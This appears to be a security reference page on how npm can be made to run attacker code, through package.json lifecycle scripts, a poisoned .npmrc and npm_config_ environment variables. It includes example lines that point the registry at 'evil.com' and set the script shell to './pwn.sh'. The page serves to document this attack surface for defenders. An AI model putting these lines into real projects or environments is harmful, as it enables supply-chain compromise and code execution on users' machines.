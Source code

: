 ```yaml
---
title: NPM
tags:
  - config-file
  - eval-sh
  - eval-js
references: 
- https://docs.npmjs.com/cli/v11/using-npm/scripts#life-cycle-operation-order
- https://docs.npmjs.com/cli/v11/configuring-npm/npmrc
- https://docs.npmjs.com/cli/v8/using-npm/config#environment-variables
files: [package.json,.npmrc]
---
```


`npm` is a package manager for javascript.

## `package.json`

Most of its commands will consume `package.json` `scripts` section, except for 
`npm ci`. It doesn't work if `--ignore-scripts` is specified.

| Command | Aliases | Section |
| -- | -- | -- |
| `npm diff --diff=.`|  | `prepare` |
| `npm restart`| | `prerestart`, `restart`, `postrestart` |
| `npm run-script <x>`| `run`, `rum`, `urn` | `pre<x>`, `<x>`,`post<x>` |
| `npm start`| | `prestart`, `start` or `server.js`, `poststart` |
| `npm stop`| | `prestop`, `stop`, `poststop` |
| `npm test`| `tst`, `t` | `pretest`, `test`, `posttest` |
| `npm version <version>`| `verison` |`postversion`, `version`, `preversion` |
| `npm install`|  `add`, `i`, `in`, `ins`, `inst`, `insta`, `instal`, `isnt`, `isnta`, `isntal`, `isntall` |`postversion`, `version`, `preversion` |

`package.json`:

```json
{
  "scripts": {
    "<section>": "<cmd>"
  }
}
```

## `.npmrc`

`.npmrc` can configure `npm`. It can be defined in multiple directories:

- `./.npmrc`
- `~/.npmrc`
- `$PREFIX/etc/npmrc`
- `/path/to/npm/npmrc`

It can be used to overwrite the standard NPM registry with an attacker-controlled registry:

```yaml
registry=https://evil.com/
```

So `npm install -g something` would not install the standard version, but the
one from the attacker. It doesn't work if `--registry=` is specified.

## Environment variables

`npm` will use environment variables that start with **npm_config_** as
a parameter. An attack with env-var poisoning can execute a file using
`export npm_config_script_shell="./pwn.sh"` or set registry `export registry=https://evil.com`.

